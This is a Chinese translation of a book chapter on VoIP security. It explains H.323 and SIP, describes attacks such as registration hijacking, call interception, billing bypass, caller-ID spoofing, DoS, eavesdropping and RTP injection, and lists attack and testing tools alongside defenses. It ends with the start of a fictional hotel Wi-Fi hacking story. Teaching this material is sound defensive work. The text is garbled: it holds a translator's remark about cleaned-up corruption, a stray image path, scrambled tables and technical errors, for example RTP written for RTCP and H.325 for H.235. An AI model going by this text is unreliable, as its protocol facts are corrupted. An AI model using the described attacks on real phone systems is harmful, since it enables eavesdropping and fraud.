根据呼叫类型，通过 TCP 或 UDP 连接使用 H.225 信号启动 H.323 VoIP 会话。目的端点的地址通过注册准入状态（RAS）协议与网关协商来获取。随后，使用 Q.931 协议（仍属于 H.225 范围，但基于固定的 TCP 1720 端口）建立呼叫，并为 H.245 信令协商地址信息。这种设置后续程序在特定的 H.323 流程中很常见，它之所以是必要的，是因为 H.245 没有分配标准端口。H.323 仅负责协商连接的建立，而 H.245 则定义了用于媒体传输的通道（同样通过 TCP 实现）。

H.245 必须建立 VoIP 呼叫的多个属性，包括将使用的解码器（CoDecs）和传输媒体的逻辑通道（即 RTP 和 RTCP 端口）。总体上必须建立四个连接， RTP/RTCP 逻辑通道是单向的。每个单向对也必须位于相邻端口。在 H.245 建立了 VoIP 呼叫的所有属性和逻辑通道后，实际呼叫即可开始。

上述描述的是使用 H.323 信令标准的基本 VoIP 呼叫过程。H.323 族包含与复杂通信形式相关的协议，包括：

- H.332（大型会议）
- H.450.1、H.450.2 和 H.450.3（增值业务）
- H.235（安全）
- H.246（与电路交换服务的互操作性）

H.323 还提供了仅需一个数据包往返即可快速连接呼叫的功能。最后，过程中的每个一点可以使用对称密钥或某些预共享密钥执行身份验证。当然，这些协议和/或安全措施增加了 H.323 呼叫建立过程的复杂性，使得与防火墙和 NAT 的协作变得更加困难。

## SIP 架构

SIP 是 IETF 指定的用于发起双向通信会话的协议——需要强调的是该协议并非专门用于 VoIP，可以用于任何会话驱动的应用程序。尽管它是 IETF 历史上最大的 RFC，但许多人认为它比 H.323 更简单。考虑到 SIP 是基于文本的，因此避免了 H.323 协议族中存在的 ASN.1 解析问题。它还是一种纯应用层协议，与其承载的协议层解耦。它可以通过 TCP、UDP 甚至流控制传输协议（SCTP）进行承载。可以使用 UDP 来减少开销并提高速度和效率，而如果出于安全考虑结合了传输层安全（TLS）加密，则可能首选 TCP。SCTP 是一种最近专门为传输信令信息开发的协议。它通过更健壮的四次握手方法、多主能力以及将多个用户消息可选封装到单个 SCTP 数据包中，提供了抵抗 DoS 攻击的能力。它还支持额外的安全服务（SCTP 之上的 TLS 和 IPsec 之上的 SCTP）。

SIP 网络的架构（见图 7-3）与 H.323 结构不同。它包括代理服务器（proxy）和或重定向服务器（redirect server）、位置服务器（location server）和注册服务器（registrar）。其端点通常是代理代理（UA）。与 H.323 不同（不带网关的定向路由呼叫除外），SIP 仅使用一个端口。其默认值为 5060。

图 7-3 SIP 架构

与 H.323 标准一样，使用 SIP 模型的用户也没有绑定到特定的主机，他们首先向注册服务器报告位置，注册服务器可能集成在代理或重定向服务器中。这些信息随后存储在位置服务器中，它提供地址解析功能。来自端点或其他服务的消息必须通过代理或重定向服务器路由。代理服务器拦截这些消息，对其进行检查以获取目的用户名，联系位置服务器将用户名解析为有效地址，最后将消息转发到适当的端点或服务器。重定向服务器执行相同的解析功能，但它们将实际传输留给端点。换句话，重定向服务器从位置服务器获取目的地址并返回给原始发送者，然后由发送者负责直接向解析出的地址发送消息，这类似于 H.323 通过网关进行的定向呼叫。

为了更好地解释呼叫建立过程期间的数据流，考虑一个使用代理服务器调解端点之间关系的典型场景。该过程与重定向服务器类似，但多了一个将解析出的地址返回给源端点的步骤。

SIP 协议本身是基于 TCP 实现的三次握手建模的。在常规呼叫建立期间，端点之间使用会话描述协议（SDP）协商通信细节，该协议包含使用的解码器、呼叫者名称等字段。如果用户想要拨打电话，会发送一个包含使用的解码器和呼叫者名称字段的 INVITE 请求……（注：原文此处存在大量重复乱码，已根据逻辑进行清理翻译）。

# 第 7 章：IP 语音 (VoIP)

除非功能性需要。通常情况下，众所知的 KISS（保持简单，愚蠢它）安全原则也适用于 VoIP。额外的复杂性可能会以智能终端的形式出现，这些终端能够运行日历、议程、股市实时结果等应用程序。然而，功能的增加也伴随着安全代价。应用程序越多意味着攻击途径越多，在 VoIP 设备上运行的程序可能会受到漏洞的影响。

制定一个一致的补丁管理策略。监控网络设备、服务器和管理工作站的漏洞公告。定期检查软件更新和补丁对于缓解由可利用的软件缺陷引起的漏洞至关重要。此外，自动补丁处理可以帮助管理员缩短入侵者利用已知软件漏洞的窗口期。

如果可能，请为 IP 电话使用静态地址。这可以防止伪造 DHCP 服务器插入攻击。此外，使用基于状态的入侵防御系统可以过滤来自 IP 电话端口的 DHCP 数据包，仅允许来自合法服务器的流量。

部署能够验证固件完整性的 IP 电话。确保下载源自 TFTP（FTP、SFTP、HTTP 等）服务器，并使用数字签名以防止伪造服务器插入攻击。

## 信令攻击

任何电话系统的目标都是建立和管理通信会话，以传输语音数据（泛指声音）。此外，可能支持其他数据格式，如视频、文本或图像。在任何情况下，整个对话过程中必须保持稳定可靠的传输，并在任何一方结束通话时关闭通信会话。为了实现这一点，VoIP 技术类似于传统电话使用了两类协议：信令协议和媒体传输协议。

通常，在发送任何语音之前，必须先拨打电话。在经典的 PSTN 网络中，呼叫者拨打目标号码数字，这些数字由电话公司系统处理并令被叫方响铃。在 VoIP 中，用户拨打号码（电话键盘上拨出的实际数字或 URI 形式），之后根据 VoIP 信令协议发生一系列复杂的封包交换以连接通话。

除了 SIP 和 H.323，还有两种标准在使用中：媒体网关控制协议 (MGCP) 和 Megaco/H.248。这些标准可能用于大型部署中的网关分解，以简化与媒体网关（MG）和媒体网关控制器（MGC）的消息处理。还存在许多其他信令协议。以下是最受欢迎的协议列表。

# 黑客攻防 Linux：Linux 安全秘密与解决方案

| VoIP 信令协议 | 描述 |
|---|---|
| H.323 | 由 ITU-T 定义 |
| 会话发起协议 (SIP) | 由 IETF 定义；比 H.323 新 |
| Megaco (或 H.248) 和 MGCP | 均为媒体网关控制协议 |
| Inter-Asterisk 交换协议 (IAX2) | Asterisk 开源 PBX 使用 |
| Skinny Client 控制 Protocol (SCCP) | Cisco 的专有协议 |
| Skype | 专有点对点协议 |
| H.325 | ITU-T 提出的新信令协议 |

针对信令协议的攻击部分与传统电话网络的漏洞有关，这些漏洞在 20 世纪 70 年代以 *freaking*（电话作骗）的通用定义曾登上头条新闻。某些信令攻击可以在极少资源下完成，并产生灾难性的后果。由于目前大多数可用的安全工具都是面向 SIP 的，以下示例主要与 SIP 信令相关。然而，所描述的攻击类别也可以通过微小更改应用到其他协议。

在具体概述与 VoIP 信令特别相关的攻击向量之前，我们将简要介绍目前现有的非商业测试工具。

## VoIP 测试工具简介

在过去的十年中，安全测试工具的进步极大地提高了网络工程师评估和缓解跨 IP 数据网络安全风险的能力。尽管测试具有固有的局限性（正如著名的计算机科学家 Eds 迪斯特拉 所解释的，“测试可以证明漏洞的存在，但不能证明漏洞不存在”），协议分析器和漏洞评估程序等安全工具仍然安全专业人员库中的主要武器。针对成熟技术安全测试的程序通常很强大，但在新兴技术的生命周期早期开发全面的安全性仍然很困难。正因如此，VoIP 的持续增长还没有安全评估技术的匹配。目前，只有少数有效的测试工具可以检测和利用 VoIP 环境中的漏洞。

在进行旨在创建多个软件产品的研究时，对某些工具进行了评估，以确定它们在审计 VoIP 网络方面的有效性。遗憾的是，大多数测试过的工具被发现存在不同程度的严重缺陷，限制了它们在现实场景中的用途，并受到界面、健壮性、可扩展性或功能问题的影响。因此，审计人员应谨慎使用这些工具，意识到它们的大多数仍处于深度开发阶段，且并不总是如声明的那样运行。不应仅依赖它们来正确地部署 VoIP。

情况正在迅速发展。许多商业公司和开源小组终于开始面对 VoIP 引入的新安全挑战，并已经开始针对 VoIP 定制测试工具。预计未来几个月内该领域将有巨大增长。

表 7-1 包含了组织良好的非商业 VoIP 信令测试工具列表。其中绝大多数工具兼容 Linux 平台。图 7-4 展示了 SIP 漏洞扫描器 SiVuS。

| 名称 | 描述 |
| --- | --- |
| SiVuS 实现测试 | 第一个用于使用 SIP 协议的 VoIP 网络公共可用漏洞扫描器 |
| PROTOS c0s | SIP 漏洞扫描器，SiVuS |
| PROTOS c07-H22 | H225 测试 |
| PROTOS c07-SIP | 适用于 SIP 的测试框架 |
| VoIPy | VoIP 核心协议处理器集 |
| SIP Proxy | 用于操作 SIP 流量的开源工具 |
| SFTF | SIP 测试框架 |
| SIPsak | 开发人员和管理员的瑞士军刀 |
| Smap | nmap 和 SIPsak 的结合 |
| enumIAX | 使用 REGREQ 消息的 IAX2 枚举器 |
| iWar SCTPscan | SCTP 扫描器 |
| SIP Bomber | 另一种 SIP 压力测试工具 |
| SIPp | SIP 测试工具和流量生成器 |
| 表 7-1 | 信令协议实现测试 |

| 名称 | 描述 |
|---|---|
| CallGen323 | H.323 调用生成器 |
| NastySIP | 生成错误 SIP 信息并发送给任何用户的简单程序 |
| ASTEROID | 畸形 SIP 数据包集 |
| Seagull | 开源多协议流量生成器 |
| SIPness | 测试和监控 SIP 消息通信的 SIP 应用 |
| Hacking Exposed VoIP | 由该书作者编写的 VoIP 测试工具集（包括 SIPSCAN） |
| Skora.net | 用于 SIP 的工具集，包括 sip-scan, sip-kill, sip-redirectrtp, rtpproxy 和 sip-proxykill |
| SIP Send Fun | 利用 SIP 电话漏洞的微型命令行脚本 |
| Scapy | 极其强大的包处理程序 |
| Nessus | 优秀的网络漏洞扫描器 |
| SIPcrack | SIP 协议登录嗅探和破解器 |
| SIP6 Analyzer | 基于 IPv6 SIP 应用的数据包分析工具 |
| NetDude | tcpdump 跟踪文件检查、分析和操作的框架 |
| SIPdump | 将 SIP 会话以 PCAP 格式导出到磁盘的工具 |
| WIST | SIP 追踪 Web 界面，SIP 会话调试器 |
| Callflow | awk 和 脚本集，可以读取捕获文件并生成流程序列图 |
| Callplot | 另一种绘制电信行业常用流程图的工具 |
| SIP Scenario | 从 Wireshark 轨迹中生成 HTML SIP 流程的工具 |
| 表 7-1 | 信令协议实现测试工具（续） |

# 第7章：IP语音 (Voice over IP)



图 7-4 运行中的 SiVuS

## 注册劫持 (Registration Hijacking)

| 流行度 | 8 |
| --- | --- |
| 复杂度 | 7 |
| 影响 | 8 |
| 风险等级 | 8 |

某些基于 SIP 的 VoIP 配置容易受到与受害者 URI 相关的注册记录的操纵。这种攻击允许恶意用户接收受害者的所有电话，导致通话劫持。由于大多数 SIP 配置使用无连接 UDP 协议进行注册请求，欺骗变得轻而易举。

SIP 请求中的 Contact 头部可以被任意伪造或操纵，以对注册服务器服务进行恶意注册，该服务负责评估用户代理（UA）的身份。

此外，某些 SIP 注册服务器会乐意接受来自“受信任”UA 的注册请求，而无需询问身份验证凭据。然而，即使启用了身份验证，如果消息以明文传输，也将被捕获、修改并重新发送。

最后，取决于网络架构和服务的配置，账户枚举、用户凭据破解、中间人（MITM）和重放攻击也是可能的。

除了显而见的通话劫持和电话欺诈外，成功的注册劫持攻击可以破坏 CIA 范式的每项要求，并可能导致拒绝服务。

## 防止注册劫持

以下通用建议旨在针对注册劫持攻击提供适当水平的安全保护。

# 网络安全指南

加密并验证信令流量。所有的信令攻击都依赖于信令消息的篡改和伪造。无论是为了构造伪造消息、重放数据包，还是仅仅为了确定用户发布的消息类型，明文格式都极大地帮助了攻击者。防火墙、网关和其他设备对内部攻击没有保护作用。在协议层面有必要另一层防御，以保护 SIP（或 H.323）内容免受篡改、拦截和重新发送。与数据网络一样，可以通过部署强加密和身份验证机制来实现。在可能的解决方案中，有两种特定的安全技术在 VoIP 环境中变得越来越流行：传输层安全（TLS，仅用于基于 TCP 的流量）和 IP 安全（IPSec）。

## 通话拦截 (Call Interception)

| 流行度: | 7 |
| 复杂度: | 7 |
| 影响: | 7 |
| 风险等级: | 7 |

通过涉及滥用 SIP 信令协议的不同技术，攻击者可以拦截通话。例如，3XX SIP 响应码类对应于重定向，并通知呼叫者为了成功完成初始请求需要采取进一步的操作。通过伪造恶意的 3XX 响应码（如 301 永久移动、302 临时移动等）或构造一个 REINVITE 消息，攻击者可以重新路由通话流，从而伪装代理或 UA；以源号码和目的号码为源追踪 CDR 数据；记录 DTMF 码甚至拦截实际对话。

因此，这种攻击可以破坏 CIA 范式的每项要求，具体导致通话溯源（有时是窃听）、通话劫持以及可能导致拒绝服务。

## 防止通话拦截

以下通用建议旨在针对通话拦截攻击提供适当水平的安全保护。

# 网络安全指南

加密并验证信令流量。与之前描述的注册劫持攻击一样，通过在信令协议层面部署强加密和身份验证机制，可以实现防止篡改、拦截和重新发送。

## 计费绕过 (Billing Bypass)

| 流行度:| 8 |
| 复杂度:| 6 |
| 影响:| 7 |
| 风险等级:| 7 |

在 SIP 和 H.323 中，信令层对媒体流没有实际控制权。这意味着，在某些情况下，攻击者可能欺骗信令协议（负责为了计费目的记录 CDR）来拨打免费或廉价的电话。

取决于网络架构和配置，攻击者可能绕过过滤器和 QoS 限制来拨打免费电话（通过 SIP 代理服务器实现计费绕过），或通过计时攻击和滥用类似 SIP TTL 的 Max-Forwards 头部拨打廉价电话（计费被中断）。

除了可能导致拒绝中断，这种攻击可能会破坏 CIA 范式的每项要求。

## 防止计费绕过

以下通用建议旨在针对计费绕过攻击提供适当水平的安全保护。

# 网络安全指南

加密并验证信令流量。与之前描述的注册劫持攻击一样，通过在信令协议层面部署强加密和身份验证机制，可以实现防止篡改、拦截和重新发送。此外，为了构建对计费绕过攻击具有韧性的 VoIP 基础设施，应仔细考虑在该章节中提到的所有安全指南。

## 身份欺骗 (Spoofing)

| 流行度 | 9 |
| 复杂度 | 9 |
| 影响 | 5 |
| 风险等级 | 8 |


正如已经解释的，身份欺骗攻击是一种通过伪造数据获取非法优势的情况。通过修改 `From` 头部，攻击者可以轻易伪造主叫号码。这使得一些脆弱的身份验证机制（如语音服务）可以被绕过，并有助于社会工程攻击，对组织产生可能的影响。

除了显而易见的通话劫持，成功的身份欺骗攻击会破坏 `CIA` 范式的要求，并在某些情况下可能导致电话欺诈。

# 防止身份欺骗

以下通用建议旨在针对身份欺骗攻击提供适当水平的安全保护。

## 网络安全指南

加密并验证信令流量。与之前描述的信令攻击一样，通过在信令协议层面部署强加密和身份验证机制，可以实现防止篡改、拦截和重新发送。

## 基于信令的拒绝服务 (Signaling-based Denial of Service)

| 流行度 | 9 |
| --- | --- |
| 复杂度 | 10 |
| 影响 | 5 |
| 风险等级 | 8 |

至少在理论上，VoIP 可以减少带宽使用并提供优于 `PSTN` 的质量。高带宽媒体的使用结合高质量数字语音，使 VoIP 成为强大且灵活的替代方案。在实践中，过程更为复杂。在网络上路由组织流量可能会导致拥塞，通过互联网发送会导致明显的延迟。此外，用于节省带宽的压缩技术可能会减慢编码和传输。

这些攻击可能会破坏 `CIA` 范式的要求。`SIP` 泛洪（发送大量的 `SIP` 

# Hacking Exposed Linux：Linux 安全秘密与解决方案

向目标 VoIP 系统发送消息以及分叉循环（fork loops）是通常通过 `INVITE` 消息进行的泛洪典型示例。其他破坏性攻击包括：

- `CANCEL`/`BYE` 滥用（发送伪造的 `CANCEL` 或 `BYE` 消息）
- `4XX`/`5XX`/`6X` 响应码伪造（发送伪造的失败消息）
- 利用协议实现中的缓冲区溢出、格式化字符串和其他编程漏洞

这些攻击对 VoIP 会话整体性能的影响会导致 `CIA` 范式中可用性要求的完全崩溃（VoIP 设备冻结或崩溃）。

# 防止基于信的拒绝服务

解决延迟和带宽拥塞等 QoS 问题的关键在于速度；因此，VoIP 中的网络穿越阶段必须快速完成，无法容忍数据网络中任务相关的延迟。这些延迟和抖动（`jitter`）的产生者是各种安全措施，最显著的是由防火墙实现的网络地址转换（`NAT`）以及流量加密/解密。将传统的防火墙和加密协议引入 VoIP 网络是可行的，特别是当 VoIP 集成到 QoS 不是标准功能的预有数据网络中时。这些其他安全架构组件（如入侵检测和防御系统）必须专门化并适应以支持新的、快速的 VoIP 世界。

VoIP 不仅比大多数数据系统需要更高的性能，可用性也是一个核心问题，而且必须兼顾如紧急 `911`（北美为 `911`；国际上为 `112`、`999` 或其他数字）等关键服务。传统电话通过电话线路本身提供的 `48` 伏运行。这使得电话即使在停电期间也能继续工作。办公室 `PBX` 为这种情况配备了备份电源系统。这些备份电源系统在 VoIP 中仍然是需要的，但在许多情况下需要进行扩展。必须进行仔细评估，以确保 VoIP 交换机以及每个桌面终端都有足够的备用电源。为了帮助这项任务，许多现代交换机现在支持以太网供电（`POE`）技术，允许 IP 电话直接从以太线获取所需的电源。通过这种配置，只需为支持 `PoE` 的交换机提供备份电源。

因此，除了之前介绍的信攻击防御措施外，你还应该仔细考虑其他通用可用性指南。

## 流程安全指南

特别考虑 `E-911` 紧急服务通信。VoIP 可能无法立即提供自动定位服务。组织在部署 VoIP 时必须仔细评估 `E-911` 问题。

评估额外备份电源系统的成本。这些系统可能需要以确保在停电期间继续运行。进行仔细评估，以确保办公室交换机以及每个桌面终端都有足够的备用电源。

# 传输攻击

无论选择何种信令标准，一旦建立通信且被叫方接听，语音信号必须转换为数字格式，然后分段成数据包流（数字语音需要大量位，可以使用压缩算法来减少要发送的数据量）。传输这些语音包的协议通常是基于 `UDP` 的实时传输协议（`RTP`）。`RTP` 数据包具有特殊的头部字段，其中存储的数据可以在另一端正确地将数据包重装为语音信号。

随 `RTP` 出现的是另一种基于 `UDP` 的协议，称为实时传输控制协议（`RTCP`），它为 `RTP` 流提供带外控制和质量信息。它在多媒体数据的交付和封装方面与 `RTP` 配合使用，但本身不传输任何数据。

所讨论的所有传输协议均未使用固定端口进行通信。`RTP` 传输通过偶数端口完成，而高一个端口留给 `RTP` 使用。虽然没有分配标准，但 `RTP` 和 `RTCP` 通常配置为使用 `16384-32767` 范围内的特端口。

由于 `RTP` 和 `RTCP` 不提供原生加密功能，因此创建了其他协议来保证消息的机密性、认证、性和重放保护。以下是 `RTP` 传输协议列表。

| VoIP 传输协议 | 描述 |
|---|---|
| 实时传输协议 (`RTP`) | 不安全的传输协议 |
| RTP 控制协议 (`RTCP`) | 不安全的传输控制协议 |
| 安全 RTP (`SRTP`) | 安全传输协议 |
| 安全 RTCP (`SRTCP`) | 安全传输控制协议 |
| Zimmermann 的 RTP (`ZRTP`) | 新的安全传输协议建议 |

# Hacking Exposed：Linux 安全秘密与解决方案

图 7—运行中的 `Wireshark`

基于媒体传输的攻击利用了 `RTP`/`RTCP` 协议固有的缺陷。它们通常依赖未加密的 `RTP` 流，并分为两类：媒体窃听以及注入与操纵。

在具体概述针对 VoIP 传输的攻击向量之前，我们将简要介绍目前现有的非商业工具（见表 7-2）。它们大多数都兼容 Linux 平台。图 7-5 显示了 `Wireshark` 的示例——这是可用工具之一。

# 第 7 章：Voice over IP

| 名称 | 描述 |
|---|---|
| Implementation Testing Ohrwurm | 小型且简单的 `RTP` 模糊测试器 |
| Fuzzy Packet | 一种操纵消息的工具，可以对 `RTP` 协议进行模糊测试 |
| Traffic Analysis and Monitoring VoIPong | 用于检测流水线上的所有 VoIP 通话并将实际对话导出到单独波形文件的工具 |
| Vomit | 将 IP 会话转换为波形文件的工具 |
| Oreka | 用于捕获和检索音频流的开源系统 |
| Wireshark | 带有 `SIP`、`SDP`、`H323`、`RTP`、`RTCP` 等解析器的网络分析器 |
| Cain & Abel | 能执行 `MITM` 攻击并导出 VoIP 会话的网络嗅探器 |

表 7-2 传输协议测试工具

# 媒体窃听

| | |
|---|---|
| 流行度 | 9 |
| 简单性 | 10 |
| 影响 | 7 |
| 风险评分 | 9 |

如前所述，*窃听*被定义为非预期接收者截获对话。这可能是最容易实施的 VoIP 攻击，因为有许多现成的软件工具。可以从每个 `RTP` 数据包头部的 `PT` 字段中获取所使用的 `CoDec`（编码器）。因此，具有拦截未加密 VoIP 流量能力的攻击者可以编写程序保存 `RTP` 流以备后分析。

这种被动攻击影响了 `CIA` 范式的机密性要求，并可能对组织产生重要且意想不到的后果。

# 防止媒体窃听

以下通用建议旨在提供针对媒体窃听攻击的适当水平的安全保护。

## 网络安全指南

加密媒体流。与基于签名的攻击一样，传输攻击也依赖 `RTP` 流量的明文格式。具体来说，如果攻击者有能力拦截在网络上传输的有效数据包，伪造 `RTP`/`RTCP` 数据包并将其插入媒体流就变得轻而易举。即使攻击者无法访问媒体流，创建看似合法的伪造 `RTP` 数据包也是一项困难的任务，除非攻击者对目标通信中涉及的伙伴拥有某些信息。保护 `RTP`/`RTCP` 媒体免受媒体窃听攻击的解决方案是引入加密机制。`SRTP` 和 `SCTP` 协议提供了机密性、消息认证和重放保护，是提供 VoIP 传输层安全的标准。

# 媒体注入与操纵

| | |
|---|---|
| 流行度 | 7 |
| 简单性 | 7 |
| 影响 | 8 |
| 风险评分 | 7 |

这类传输层漏洞包含许多不同的攻击，针对 `RTP` 和 `RTCP` 协议。其共同特征是攻击者能够向数据流中注入伪造的数据包。根据插入的 `RTP`/`RTCP` 数据包的形式，会有几种结果：

- `SSRC` 冲突导致任意会话中断
- `SSRC` 操纵，通过更高的时间戳和序列号在合法音频流中注入未请求的任意内容
- `CoDec` 操纵
- `RTP` 注入以降低会话质量以及 `RTP`/`RTCP` 注入和 `CoDec` 操纵以降低会话质量

## 第 7 章：IP 电话 (VoIP)

最后，可能强制 VoIP 设备对任意目标执行有效的媒体泛滥攻击。这种攻击会影响 `CIA` 三元性模型中的完整性和可用性需求，导致拒绝服务和一种特殊的通话劫持。

## 预防媒体注入与操纵

以下通用建议旨在针对媒体注入和媒体操纵攻击提供适当水平的安全保护。

## 网络安全指南

对媒体流进行身份验证。保护 `RTP`/`RTCP` 媒体流免受上述攻击的解决方案是引入数字签名（即作为安全的哈希值）。`SRTP` 和 `SRCP` 协议提供了机密性、消息认证和防重放保护，代表了提供 VoIP 传输层安全的标准。

## VoIP 安全挑战

正如你所所的，防火墙、`NAT` 和加密等安全措施对 VoIP 的实施构成了严峻挑战。然而，对于那些愿意付出代价来说，这些问题是有解决方案的。

## 防火墙与 NAT

将防火墙引入 VoIP 网络连接了 VoIP 的多个方面——最显著的是动态端口通信和呼叫建立程序。无状态数据包过滤器对使用 `H.323` 标准的 VoIP 网络带来了特别棘手的问题，因为协议中的每个后续通道都是通过其前驱动态确定的端口路由的。简单防火墙无法关联 `UDP` 传输和响应；因此，这需要在防火墙的 `ACL`（访问控制列表）中“打洞”，以允许 `H.323` 信令通过其可能使用的任何端口穿越安全边界。这在网络中引入了严重的弱点。即使是感知状态的 VoIP 防火墙在协议通过呼叫建立过程中为每个通道开启正确的端口，`H.323` 流量并非易事。`H.323` 是基于 `ASN.1` 的二进制格式编码的，因此为了识别编码数据包内容而进行的复杂解析会对已经速度敏感的系统引入额外的延迟。如果 `SIP` 的编码使得呼叫建立和标头解析比 `H.323` 简单得多，但对防火墙仍有一些要求。它必须保持稳定并监控 `SIP` 流量，以确定哪些动态 `RTP`/`RTCP` 端口应该开放供这些地址使用。

`NAT` 对于使用 `H.323` 或 `SIP` 标准的 VoIP 系统来说也特别棘手。`NAT` 违反了 IP 地址的根本语义，即 IP 地址必须是全局可达的通信点。这种设计对 VoIP 有重大影响，并复杂了网络操作，因为信令包中指定的内部 IP 地址和端口并不是远程终端在外部使用的实际地址/端口对。防火墙必须理解这一点，以便 VoIP 接收到正确的翻译后的地址/端口号。随后，通过 `NAT`，不仅需要读取信令流量，还需要对其进行修改，以便向每个端点发送正确信息。此外，通过 `NAT` 传输媒体本身还涉及若干几个问题，包括与 `IPSec` 隧道之间众周知的不兼容性。从概念上说，解决这些不兼容性的简单方法是完全放弃 `NAT`，但 `NAT` 也有它的优势。在许多场景下，它既是最便宜、最简单且高效的解决方案，因此不太会被放弃——即使在实施 `IPv6` 和扩展地址空间之后。

此外，无论使用何种协议建立呼叫，防火墙和 `NAT`（作为内置入侵检测和防御系统）都会带来 VoIP 的其他特定问题。这两种安全技术都会让终端难以接收入站电话，影响 QoS 延迟和抖动，并可能对 `RTP` 流造成破坏。

应用层网关（`ALG`）、中间件代理和会话边界控制器（`SBC`）是防火墙/`NAT` 穿越的典型解决方案。它们可以解析并理解 `H.323` 或 `SIP`，并允许基于特定应用程序信息进行动态 `ACL` 配置。然而它们也有缺点，对 VoIP 数据包的性能处理会引入延迟并可能导致抖动。此外，安全设备可能很昂贵，并且每次 VoIP 标准变化时都需要升级或更换。最后，额外的网络组件也需要受到攻击者的保护。受攻击的 `ALG`、代理或 `SBC` 会对整个 VoIP 基础设施的安全产生灾难性影响。为了完整起见，`NAT` 问题的其他可能解决方案包括以下机制：简单 `UDP` 穿越 (`STUN`)、中继 `NAT` 穿越 (`TURN`)、交互式连接建立 (`ICE`) 和通用插即用 (`UPnP`)。

### 加密

额外的处理（如密码和加密）可能会增加 VoIP 网络延迟。如果引入流，密钥流产生的速度必须赶语音数据到达的速度。块加密可能会产生更多数据，这取决于所使用的算法，但仍会引入较小的开销。使用 `HMAC` 哈希值进行认证会导致更明显的延迟。在大多数应用程序中，身份验证和完整性与加密同等甚至更重要，但对于人类说话者的语音处理，由于能够识别对话另一端的人，某些身份验证已经是内置的。即使是陌生人通话，对源认证的关注也主要适用于呼叫建立，而不是对话本身。由于这些考虑，如果性能是一个问题，某些设计可能会限制 `HMAC`。

`IPSec` 协议族和加密算法是保护数据网络通信免受未经授权查看的标准方法。因此，将这种保护扩展到 VoIP 是既逻辑又的，在终端对信号和语音数据包进行加密，并在接收者需要时进行解密。然而，VoIP 信令协议的性质导致无法简单的方案，因为防火墙、路由器和其他网络设备需要读取 VoIP 数据包。此外，几个因素包括数据包大小扩展、加密延迟、可能的丢包以及加密引擎本身缺乏 QoS 紧急性，可能会导致 VoIP 数据包传输出现明显的性能下降。这再次强调了安全与语音质量之间的权衡以及对速度的需求。遗憾的是，这些困难不可逾越的。测试表明，`VoIPSec` 可以集成到 `SIP` 网络中，建立时间大约延迟三秒，这对于许多应用程序是可以接受的。

最后，`H.323` 和 `SIP` 提供了额外的安全功能和协议，分别定义在 `H325v2`/`H325v3` 标准和 `RFC 3261` 中。此外，最近引入了用于媒体流加密和密钥管理的特定协议，用于 `H323` 和基于 `SIP` 的客户端之间的安全通信。安全实时传输协议 (`SRTP`) 和安全实时控制协议 (`SRTCP`) 定义了 `RTP`/`RTCP` 的配置，旨在为加密、消息认证和防重放提供框架，实现高吞吐量和低丢包。

### 总结

VoIP 是通过互联网或任何其他 IP 数据网络传输语音对话。这是一个非常复杂且快速发展的领域，代表了现代电信领域最重要的新兴趋势之一。

正如许多新技术一样，VoIP 既带来了机遇和安全风险。低成本和高灵活性是其优势，但 VoIP 与传统电话之间的差异可能会导致严重的安全问题，这些问题必须经过仔细考虑和解决。

因此，为了有效保护 VoIP 基础设施，组织需要在三个层面采取主动措施：程序、网络和系统。通过仔细评估安全风险并据此规划部署，你可以保留从传统电话网络中预期的质量、可靠性和安全性属性。

## 第 8 章

### 案例研究

以下是一个虚构但在技术上准确的故事，描述了在你下一次商务出差期间可能发生的情况……

时间：`1923hrs GMT+7`

地点：曼谷，丽迪森酒店，`320` 室室

琼斯（`Jones`）在酒店房间里拉过一把椅子，坐了下去。他已经忙碌了一整天，而且工作还没有完成。琼斯的公司派他去曼谷进行另一次业务开发之旅，他第一天忙于奔波，会各种供应商和客户。现在，琼斯必须向他位于马来西亚的公司地区总部的老板发送一份报告，并且必须获取那种无处不在的资源：互联网连接。

幸运的是，丽迪森酒店与全球其他商务型酒店不同，为了方便客人，在每一层都贴心地安装了无线接入点。琼斯现在想使用这个无线接入来发送他的邮件报告。当然，当今世界上没有什么是免费的，酒店向客人收取了这项服务的一笔不小的费用。琼斯拨了前台电话，获得了一个用户 ID 和相应的密码，并方便地记在了房账上（当然是记在公司的账上）。他将笔记本电脑的电源适配插入最近的电源插座，开启电源，开始处理他的事务……

时间：`1927hrs GMT+7`

地点：曼谷，丽迪森酒店，`311` 室室

在一个光线昏暗的房间里，一个身影伏在笔记本电脑前，专注地观察着屏幕。朱利安（`Julian`，被称为“锤击者”/`Hammerjammer`）检查了显示器，然后后靠在椅子上，显然在等待什么。“锤击者”的预算非常紧张，根本无法在附近的 `Maxx` 酒店租到一个便宜的房间。这迫使他去尝试高端的丽迪森酒店，由于正值旅游季，房间价格昂贵，所以他没心情花大钱买网费。然而，他现在面临着同样的老问题——“没钱，亲爱的”的困境，而且 `HJ` 是个老派分子，这更加糟糕——他认为互联网接入应该是对所有人免费的。于是，他采取了任何自诩为黑客……安全专业人员会做的：掏出他配备 `Atheros` 芯片的内置笔记本电脑并启动它。

